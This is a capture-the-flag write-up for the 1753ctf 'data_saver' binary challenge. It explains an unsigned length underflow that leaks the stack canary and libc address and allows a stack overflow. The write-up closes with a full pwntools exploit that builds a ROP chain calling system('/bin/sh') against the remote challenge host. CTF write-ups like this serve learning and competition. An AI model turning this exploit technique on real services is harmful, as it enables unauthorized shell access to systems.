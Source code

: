 I didn't solve the first two problems because they seemed too easy.(and they have many solver.)

1. data_saver

---
# data_saver

```bash
[*] '/mnt/d/1753ctf/Data saver/data_saver'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

Partial RELRO

```C
int main() {
        save_file = fopen("save.dat", "ab+");
        uint8_t message[1500];
        while (true) {
                ssize_t bytes_read = read(STDIN_FILENO, message, 1500);
                if (bytes_read == 0 || bytes_read == -1) {
                        break;
                }
                process_message(message, save_file);
        }
	fclose(save_file);
}
```

`main` read data and send to `process_message`.

```C
void process_content(uint8_t* data, size_t data_length) {
	for (size_t i = 0; i < data_length; i++) {
		if (data[i] == 0) {
			break;
		}
		data[i] = data[i] + 42;
	}
}

void process_save(uint8_t* data, size_t data_length) {
	process_content(data, data_length);
	fwrite(&data_length, sizeof(data_length), 1, save_file);
	fwrite(data, 1, data_length, save_file);
}

void process_message(const uint8_t* message, FILE* save_file) {
	uint8_t protocol_version = message[0];
	uint8_t op = message[1];
	uint16_t data_length = ntohs(*(uint16_t*)(message+2));
	uint8_t data[MAX_DATA_SIZE];
	if (data_length > MAX_DATA_SIZE + CRC_LENGTH) {
		return;
	}
	uint16_t data_no_footer_length = data_length - CRC_LENGTH;
	if (op == OP_PING) {
		process_ping(message+HEADER_LENGTH, data_no_footer_length);
	}
	if (op == OP_SAVE) {
		//uint8_t data[MAX_DATA_SIZE];
		memcpy(data, message+HEADER_LENGTH, data_no_footer_length);
		process_save(data, data_no_footer_length);
	}
}
```

we can choose two options : `process_ping` and `process_save`, and there is vuln applyed both functions. `data_no_footer_length` can underflowed. if `data_length` is less than 4, `data_no_footer_length` become very big number because its type is `unsigned`.
`process_save` isn't important function. More than that, `memcpy` is the important function before called `process_save`. It allow `AAW`

```C
void process_ping(const uint8_t* data, size_t data_length) {
	uint8_t header_buff[HEADER_LENGTH];
	uint32_t crc = 0xffffffff;
	memset(header_buff, 0, HEADER_LENGTH);
	header_buff[0] = 0x11;
	header_buff[1] = OP_PING;
	*(uint16_t*)(header_buff+4) = htons(data_length+CRC_LENGTH);
	write(STDOUT_FILENO, header_buff, HEADER_LENGTH);
	write(STDOUT_FILENO, data, data_length);
	write(STDOUT_FILENO, &crc, CRC_LENGTH);
}
```

In `process_ping`, There is `write` function allowed leak everything. I leak `canary` and `libc_base`. With `AAW` vuln, we can do `rop`.
However, in my environment which is `Ubuntu 24.04.2 LTS`, `memcpy` doesn't work. Because `memcpy` try to write at unallocated address - beyond the allocated stack page. But the funny thing is, it works on remote. I can be checked to print length about `process_ping`'s output. In local, less data printed, but on remote, Data with a length of 65552(0x10 + 0xfffc + 0x4) - full length of text when I input `data_length` to 0 - is output.
Anyway, it works! haha.
# exploit 

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./data_saver')
p = remote('data-saver-ab940d1f1cdf.tcp.1753ctf.com', 14980)
l = ELF('./libc.so.6')

payload = b'\x0b' + b'\x00' + b'\x00\x00' + b'\x00' * 12
p.send(payload)
# msg = p.recvall(timeout=2)
# print(len(msg))
msg = p.recvn(65552)
canary = u64(msg[1536-24:1536-16])
l.address = u64(msg[1536-8:1536]) - (0x7f6cd15eb24a - 0x7f6cd15c4000)
print(msg[1536-16:1600])
print(hex(canary))
print(hex(l.address))

ret = l.address + 0x0000000000026e99
pop_rdi = l.address + 0x00000000000277e5
binsh = list(l.search(b'/bin/sh'))[0]
system = l.sym['system']

payload = b'\x0b' + b'\x01' + b'\x00\x00' + b'\x00' * 12
payload += b'a' * 0x208 + p64(canary) + b'a' * 0x8
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
#gdb.attach(p, "b* process_message + 0xb6")
p.send(payload)
p.interactive()
```